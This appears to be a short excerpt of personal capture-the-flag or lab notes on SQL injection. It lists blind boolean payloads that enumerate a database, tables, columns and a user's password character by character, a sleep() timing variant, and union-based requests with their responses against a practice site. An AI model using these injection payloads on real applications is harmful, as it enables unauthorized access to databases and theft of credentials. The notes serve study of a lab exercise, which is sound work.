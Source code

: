 ### Blind

```sql
admin123' UNION SELECT 1;--
admin123' UNION SELECT 1,2,3;-- 
admin123' UNION SELECT 1,2,3 where database() like '%';--
admin123' UNION SELECT 1,2,3 where database() like 's%';--
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users';--
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';
admin123' UNION SELECT 1,2,3 from users where username like 'a%
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%
```

Or can use sleep() instead. Ex. `UNION SELECT SLEEP(5),2;--`

### union (practice)

Set if we have four selected fields.

Request;

```sql
http://<IP>/admin?user=0 union select 1,2,3,4 -- -
```

Response;

```html
  <div>
          User 2 <br />
          ID: 1 <br />
          Is administrator: true <br />
       <button onclick="this.disabled = true">Delete user</button>
      </div>
```

Seems the query returns 4 columns in which value of column 1 and 2 are reflected on the output.



Request;

```sql
user=0 union select 1,group_concat(schema_name),3,4 from information_schema.schemata-- -
```

Response;

```sql
information_schema,marketplace
```

we have two tables.
